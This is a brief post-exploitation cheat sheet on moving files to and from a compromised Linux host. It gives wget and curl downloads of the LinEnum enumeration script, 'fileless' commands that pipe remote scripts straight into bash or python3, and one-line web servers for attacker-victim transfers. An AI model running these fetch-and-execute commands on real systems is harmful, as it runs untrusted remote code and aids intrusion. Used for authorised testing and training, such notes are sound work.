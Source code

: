 # Downloads

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
#### Fileless Download with cURL

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
#### Fileless Download with wget

```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
# Uploads
#### Linux - Attacker/Victim - Creating a Web Server with Python3

```bash
python3 -m http.server
```

#### Linux - Attacker/Victim - Creating a Web Server with Python2.7

```bash
python2.7 -m SimpleHTTPServer
```

#### Linux - Attacker/Victim - Creating a Web Server with PHP

```bash
php -S 0.0.0.0:8000
```

#### Linux - Attacker/Victim - Creating a Web Server with Ruby

```bash
ruby -run -ehttpd . -p8000
```

#### Download the File from Linux Attacker to Linux Victim or vice versa

```bash
wget <Server IP>:8000/filetotransfer.txt
```

# Tags
> #Post-Exploitation #Linux-Post-Exploitation #File-Transfers #wget #curl